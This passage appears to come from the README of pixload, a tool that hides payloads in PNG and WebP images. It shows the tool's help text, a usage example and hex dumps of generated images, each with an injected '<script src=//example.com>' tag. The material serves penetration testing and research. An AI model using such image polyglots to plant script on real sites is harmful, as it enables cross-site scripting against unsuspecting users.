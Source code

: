 ```
00000070  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
000000c0  00 23 50 55 6e 4b 3c 73  63 72 69 70 74 20 73 72  |.#PUnK<script sr|
000000d0  63 3d 2f 2f 65 78 61 6d  70 6c 65 2e 63 6f 6d 3e  |c=//example.com>|
000000e0  3c 2f 73 63 72 69 70 74  3e eb fd 2e 9f 00 49 45  |</script>.....IE|
000000f0  4e 44                                             |ND|
000000f2
```

See [pixload-png(1)](https://github.com/chinarulezzz/pixload/blob/master/pixload-png.1.pod)
manual page for more information.

### pixload-webp

##### Help

```sh
$ pixload-webp --help
```

```
Usage: pixload-webp [OPTION]... FILE
Hide payloads/malicious code in WebP images.

Mandatory arguments to long options are mandatory for short options too.
  -P, --payload STRING   set payload for injection
  -v, --version          print version and exit
  -h, --help             print help and exit

Currently, there is no possibility to inject the payload into an existing
WebP image. Only the new (minimal) WebP image will be created and your
payload will be injected into. If the output FILE already exists, the
payload will be injected into the existing image, but this image will be
corrupted.
```

##### Example

```sh
$ pixload-webp payload.webp
```

```
........ WebP Payload Creator/Injector ........
...............................................
... https://github.com/chinarulezzz/pixload ...
...............................................

[>] Generating output file
[✔] File saved to: payload.webp

[>] Injecting payload into payload.webp
[✔] Payload was injected successfully

payload.webp: RIFF (little-endian) data, Web/P image

00000000  52 49 46 46 2f 2a 00 00  57 45 42 50 56 50 38 4c  |RIFF/*..WEBPVP8L|
00000010  ff ff ff 00 2f 00 00 00  10 07 10 11 11 88 88 fe  |..../...........|
00000020  07 00 2a 2f 3d 31 3b 3c  73 63 72 69 70 74 20 73  |..*/=1;<script s|
00000030  72 63 3d 2f 2f 65 78 61  6d 70 6c 65 2e 63 6f 6d  |rc=//example.com|
00000040  3e 3c 2f 73 63 72 69 70  74 3e 3b                 |></script>;|
0000004b
```
